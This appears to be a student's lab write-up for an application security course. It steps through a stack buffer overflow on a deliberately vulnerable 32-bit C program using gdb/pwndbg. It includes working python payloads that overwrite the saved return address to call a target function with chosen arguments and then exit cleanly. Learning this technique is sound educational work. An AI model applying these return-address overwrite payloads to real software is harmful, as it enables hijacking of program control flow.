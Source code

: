 # Lab 6 - Application Security

## Setup
```bash
sudo apt install libc6-dev-i386 gcc-multilib
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh

# to check everything is ok
gdb
# should look like this
# to exit press q
# GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
# ...
# pwndbg>

```

## Task 1
compile buggy.c

```bash
gcc buggy.c -o buggy -fno-stack-protector -m32 -g
```

## Task 2
Run the program using GDB, setting the argument Florin.

```bash
gdb buggy
```
Set a breakpoint at the beginning of the main function.
Continue execution until you hit the breakpoint.
```bash
break main
run Florin

#alternativ, se poate folosi start 
start
```

Try to reach the beginning of the copy function without setting another breakpoint.

```bash
n 
#de 3 ori

```

## Task 3

Remove the existing breakpoint and set a new one at the beginning of the copy function.

```bash
i b
d 1
i b
b copy
```

Run again the program and continue execution until you hit the breakpoint.

```bash
run Florin
```

Print the value and the address of name. Print the value again after gets(name) is executed.

```bash
x/s name
n
n
x/s name
```

## Task 4
```bash
start
x/s buff
# sau p &buff
# repeat
# adresa nu se schimba
```
```bash
show disable-randomization
set disable-randomization off
```

## Task 5

Restart gdb and run until the beginning of the copy function.

```bash
q
gdb buggy
b copy
set args Florin
run
```

At what address is name located?

```bash
p &name 
# sau x/s name
```

At what address is the saved return address located?
```shell
info frame
# adresa salvata in eip
```
# Task 6
* si mai simplu offf....
```bash
 p $ebp - name + 4
```

* din gbd output
    * adresa de return este sub ebp (ebp+4)
```c
─────────────────[ STACK ]──────────────────────────
00:0000│ esp 0xffffcb90 —▸ 0xf7fc4540 (__kernel_vsyscall) ◂— push ecx
01:0004│-014 0xffffcb94 ◂— 0x0
02:0008│-010 0xffffcb98 —▸ 0xf7dd8a99 (printf+9) ◂— add eax, 0x1d2567
03:000c│-00c 0xffffcb9c —▸ 0x565562c2 (main+96) ◂— add esp, 0x10
04:0010│-008 0xffffcba0 —▸ 0x5655705e ◂— '%s, %s\n'
05:0014│-004 0xffffcba4 —▸ 0x56558fcc (_GLOBAL_OFFSET_TABLE_) ◂— 0x3ed4
06:0018│ ebp 0xffffcba8 —▸ 0xffffcbc8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 —▸ 0x56555000 ◂— ...
07:001c│+004 0xffffcbac —▸ 0x565562ca (main+104) ◂— sub esp, 0xc
```

sau se ia direct din info frame

```bash
i f
# Stack level 0, frame at 0xffffcbc0:
# eip = 0x56556229 in copy (buggy.c:16); saved eip = 0x565562ca
# called by frame at 0xffffcbf0
# source language c.
# Arglist at 0xffffcbb8, args:
# Locals at 0xffffcbb8, Previous frame's sp is 0xffffcbc0
# Saved registers:
#  ebx at 0xffffcbb4, ebp at 0xffffcbb8, eip at 0xffffcbbc
```
- name is at n_addr = 0xffffcb94
- return is at ret_addr = 0xffffcbac

Diferenta dintre cele 2 adrese = 0x18 => 24 

# Task 7
Call the ''wanted'' function.

What is the address of this function?

Adjust the input so that the return address is overwritten with the address of the wanted function.

```bash
print &wanted
# $2 = (void (*)(int)) 0x565561cd <wanted>
```

```bash
run args < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 24 + b"\xcd\x61\x55\x56")')
```

# Task 8

Calling the "wanted" function with the correct arguments.

```bash
run args < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 24 + b"\xcd\x61\x55\x56" + b"B" * 4 + b"\xBE\xBA\xFE\xCA")')
```

# Task 9

Adjust the previous payload so that the program exits without a segmentation fault.

```bash 
p &exit
# $4 = (void (*)(int)) 0xf7dbb460 <__GI_exit>
```

```bash
run args < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 24 + b"\xcd\x61\x55\x56" + b"\x60\xb4\xdb\xf7" + b"\xBE\xBA\xFE\xCA")')
```